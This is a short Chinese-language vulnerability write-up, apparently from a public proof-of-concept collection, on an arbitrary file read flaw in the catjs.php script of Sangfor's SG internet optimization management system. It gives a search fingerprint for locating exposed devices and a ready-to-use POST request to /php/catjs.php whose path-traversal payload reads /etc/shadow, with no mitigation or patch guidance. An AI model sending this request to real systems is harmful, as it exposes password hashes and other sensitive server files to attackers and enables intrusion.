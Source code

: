 # 深信服 SG上网优化管理系统 catjs.php 任意文件读取漏洞

## 漏洞描述

深信服 SG上网优化管理系统 catjs.php 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件

## 漏洞影响

<a-checkbox checked>深信服 SG上网优化管理系统 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="SANGFOR上网优化管理"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1675086253816-a325abd8-8309-4a8f-94d5-b829bd803a8d.png)

验证POC

```plain
POST /php/catjs.php

["../../../../../../etc/shadow"]
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1675086290296-c3dffe51-dd0f-45c1-8502-c3680b0fdabb.png)